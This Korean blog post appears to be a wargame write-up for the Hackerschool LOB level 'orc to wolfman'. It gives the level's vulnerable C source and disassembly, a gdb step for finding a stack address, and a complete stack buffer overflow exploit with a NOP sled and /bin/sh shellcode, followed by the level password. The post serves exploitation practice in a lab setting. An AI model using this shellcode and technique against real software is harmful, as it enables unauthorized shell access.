 ```yaml
---
date: '2022-10-15'
before : '2022-10-14'
after : '2022-10-16'
title: 'FTZ LOB LEVEL 5'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 저번 문제와 크게 다르지 않았다.

### 1. Level 5 : Orc -> Wolfman

소스코드를 확인해 보자!

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

어셈블리 코드도 확인해보자!
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048640
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    nop
0x8048524 <main+36>:    mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:    nop
0x804852c <main+44>:    lea    %esi,[%esi*1]
0x8048530 <main+48>:    mov    %eax,DWORD PTR [%ebp-44]
0x8048533 <main+51>:    lea    %edx,[%eax*4]
0x804853a <main+58>:    mov    %eax,%ds:0x8049760
0x804853f <main+63>:    cmp    DWORD PTR [%eax+%edx],0
0x8048543 <main+67>:    jne    0x8048547 <main+71>
0x8048545 <main+69>:    jmp    0x8048587 <main+135>
0x8048547 <main+71>:    mov    %eax,DWORD PTR [%ebp-44]
```

사실 밑에 buffer hunter라는 녀석이 생긴 것 말고는 달라진 점은 없다. 우리는 어차피 NOP SLED 방식을 활용하므로 buffer hunter로 초기화해도 프로그램 실행 흐름상 버퍼오버플로우를 발생시키는 것에 무리는 없다.


저번 문제와 똑같이 카피코드를 gdb로 디버깅해서 주소를 찾았다.

```
b * main

r `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'` `python -c "print '\x90'*200+"B"*40'`

//대략적인 주소
0xbffffc3c
```

익스플로잇 :
```
./wolfman `python -c "print 'A'*44 + '\x3c\xfc\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
```

비밀번호 : love eyuna

 ---
## Source

- 해커스쿨 FTZ
- Me!
